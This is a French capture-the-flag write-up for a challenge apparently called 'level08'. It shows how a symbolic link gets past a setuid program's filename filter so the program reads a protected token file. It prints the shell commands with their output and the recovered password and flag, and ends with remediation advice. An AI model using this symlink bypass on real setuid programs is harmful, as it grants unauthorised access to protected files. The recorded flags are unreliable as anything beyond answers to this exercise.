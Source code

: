 Voici ton texte complété :

---

# Rapport de Vulnérabilité : Contournement de filtre par lien symbolique

## Description

Dans ce niveau, un fichier `token` contient un flag mais est inaccessible directement via le programme `level08`. Le binaire exécutable `level08` fonctionne avec les droits de l’utilisateur `flag08` (grâce au **setuid**), ce qui signifie qu’il a les permissions pour executer le fichier `token`. Cependant, un filtrage sur le **nom du fichier** empêche un accès direct à `token`. En utilisant un **lien symbolique** pointant vers ce fichier sous un autre nom, il est possible de contourner ce filtre et de lire le contenu du fichier.

## Comment Exploiter la Faille

### Étape 1 : Analyse des fichiers et des permissions

```bash
ls -l
```

**Résultat :**

```
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

* Le fichier `level08` a le **bit SUID** et s’exécute avec les droits de `flag08`.
* Le fichier `token` est lisible uniquement par `flag08`.

### Étape 2 : Exécution du programme avec le fichier bloqué

```bash
./level08 token
```

**Résultat :**

```
You may not access 'token'
```

Le binaire refuse explicitement l’accès au fichier s’il s’appelle **token**.

Le programme bloque visiblement l'accès en fonction du **nom** du fichier fourni, et non de son contenu ou de sa cible réelle.

### Étape 3 : Création d’un lien symbolique

Créer un lien symbolique vers `token` avec un autre nom :

```bash
ln -s ~/token /tmp/lien.txt
```

### Étape 4 : Exécution du binaire avec le lien symbolique

```bash
./level08 /tmp/lien.txt
```

**Résultat :**

```
quif5eloekouj29ke0vouxean
```

Le flag est lu avec succès via le lien, car le programme n’a pas détecté le nom `token`.

---

## Comment Résoudre la Faille

Pour corriger cette vulnérabilité :

* **Ne jamais filtrer uniquement sur le nom du fichier** : Cela peut facilement être contourné avec des liens symboliques ou des chemins alternatifs.
* **Vérifier l'identité réelle du fichier** : Utiliser `realpath()`, `stat()` ou vérifier l'inode ou l’UID propriétaire.
* **Limiter les chemins d'accès** : Restreindre les accès à un répertoire spécifique, sans autoriser les liens symboliques extérieurs.

## Étape Finale

On se connecte ensuite à l’utilisateur `flag08` en utilisant le mot de passe obtenu pour exécuter la commande suivante et obtenir le flag :

```bash
getflag
```

**Flag récupéré** : `25749xKZ8L7DkSCwJkT9dyv6f`
## Conclusion

Cette vulnérabilité montre qu’un contrôle basé uniquement sur le nom d’un fichier est insuffisant. En créant un lien symbolique vers une ressource protégée, un attaquant peut facilement contourner cette restriction. Il est essentiel de **valider la cible réelle** des fichiers manipulés pour garantir la sécurité.

---
